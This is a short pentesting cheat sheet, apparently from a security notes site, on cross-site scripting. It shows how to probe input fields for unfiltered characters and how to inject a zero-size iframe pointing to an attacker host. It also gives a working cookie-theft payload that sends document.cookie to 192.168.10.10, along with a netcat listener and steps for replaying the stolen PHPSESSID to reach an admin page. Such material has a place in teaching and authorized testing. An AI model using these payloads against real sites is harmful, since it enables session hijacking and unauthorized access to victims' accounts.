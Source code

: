 # Cross Site Scripting \(XSS\)

## Enumerating XSS

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript

**If this character are not removed or encoded then it might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use this special characters!**

### Content Injection 

If we want to place content in the website and the site is vulnerable to XSS then we may be able to use some techniques to "inject" malicious content to the website.

#### iframe Method

The HTML &lt;iframe&gt; embeds another file within the current HTML document

```text
<iframe src=http://192.168.10.10/evil height="0" width="0"></iframe>
```

**The quotes ' " can affect this.**

Visit/Refresh the webpage that has the code and click on the iframe to receive connection back with:

```text
sudo nc -lvnp 80 
```

### Stealing Cookies

**Cookies can be set with several option flags:**

* Secure = Instructs the browser to only send the cookie over encrypted connections, such as HTTPS. 
* HttpOnly = Instructs the browser to deny JavaScript access to the cookie. If it set to **FALSE** we can use an XSS payload to steal the cookie.

#### Stealing Cookies Methodology

Setup a nc listener with the following command:

```text
nc -lvnp 80
```

Create the payload to capture the victim's cookie**:**

```text
<script>new Image().src="http://192.168.10.10/filename.jpg?output="+document.cookie;</script>
```

Add the cookie from the netcat into the Cooke-Editor Plugin:

{% embed url="https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?src=search" %}

Cookie Editor Plugin &gt; Add &gt; Name: PHPSESSID Value: &lt;cookie\_value&gt; -&gt; Save

After saving the cookie visit the administrator or the unauthorized page:

```text
/admin-page.php
```

 

